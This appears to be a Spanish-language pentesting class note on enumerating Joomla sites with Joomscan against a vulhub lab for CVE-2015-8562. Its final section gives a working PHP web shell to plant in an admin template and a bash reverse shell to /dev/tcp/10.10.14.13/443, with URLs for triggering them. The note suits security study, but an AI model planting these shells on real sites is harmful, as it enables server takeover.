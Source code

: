 # Joomla 

Tags: #Joomla #CMS  

## Enumeración de gestores de contenido (CMS) – Joomla

Joomla es un sistema de gestión de contenidos (CMS) de código abierto que se utiliza para **crear sitios web** y **aplicaciones en línea**. Joomla es muy popular debido a su facilidad de uso y flexibilidad, lo que lo hace una opción popular para sitios web empresariales, gubernamentales y de organizaciones sin fines de lucro.

Joomla es altamente personalizable y cuenta con una gran cantidad de extensiones disponibles, lo que permite a los usuarios añadir funcionalidades adicionales a sus sitios web sin necesidad de conocimientos de programación avanzados. Joomla también cuenta con una comunidad activa de desarrolladores y usuarios que comparten sus conocimientos y recursos para mejorar el CMS.

A continuación, se comparte el enlace del proyecto que estaremos desplegando en Docker para auditar un Joomla:

-   **CVE-2015-8562**: [Joomla](https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2015-8562)

Una de las herramientas que usamos en esta clase es **Joomscan**. Joomscan es una herramienta de línea de comandos diseñada específicamente para escanear sitios web que utilizan Joomla y buscar posibles vulnerabilidades y debilidades de seguridad.

Joomscan utiliza una variedad de técnicas de enumeración para identificar información sobre el sitio web de Joomla, como la versión de Joomla utilizada, los plugins y módulos instalados y los usuarios registrados en el sitio. También utiliza una base de datos de vulnerabilidades conocidas para buscar posibles vulnerabilidades en la instalación de Joomla.

Para utilizar Joomscan, primero debemos descargar la herramienta desde su sitio web oficial. A continuación se os proporciona el enlace al proyecto:

-   **Joomscan**: [https://github.com/OWASP/joomscan](https://github.com/OWASP/joomscan)

## Joomla Enumeración 

Esta herramienta además de enumerar un servidor Joomla, nos crea un reporte de las vulnerabilidades que encontró.
**/administrator** Es la ruta del panel de autenticacion de admin

```bash 
❯ perl joomscan.pl -u http://IP/
```

## Obtener una Shell en Joomla

```bash 
1. Para obtener una shell en Joomla se puede lograr de la siguiente manera, editando un 'template' del panel de admin y escribir codigo 'PHP' para ejecutar comandos, debemos de saber la ruta en donde se encuentra instalado el template, ya que ahi podremos ejecutar comandos '?cmd=whoami'


Opcion 1. Editar cualquier template 

1. Seleccionar un template y darle en 'New File'. Despues, colocar un nombre, agregar la extension de 'PHP', dar en 'Create' y colocar el siguiente codigo:
	<?php 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	?>

o de la siguiente manera para obtener la ReverShell directa:

	<?php
	   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
	?>


2. En la siguiente URL se puede acceder al archivo: 

❯ http://IP/templates/protostar/pwned.php?cmd=whoami       # Ejecutar un comando
	# URL-encodeamos la revershell y la colocamos en la url (bash -c 'bash -i >& /dev/tcp/IP/443 0>&1')
❯ http://IP/templates/protostar/pwned.php                  # Llamar al archivo para obtener la ReverShell 
```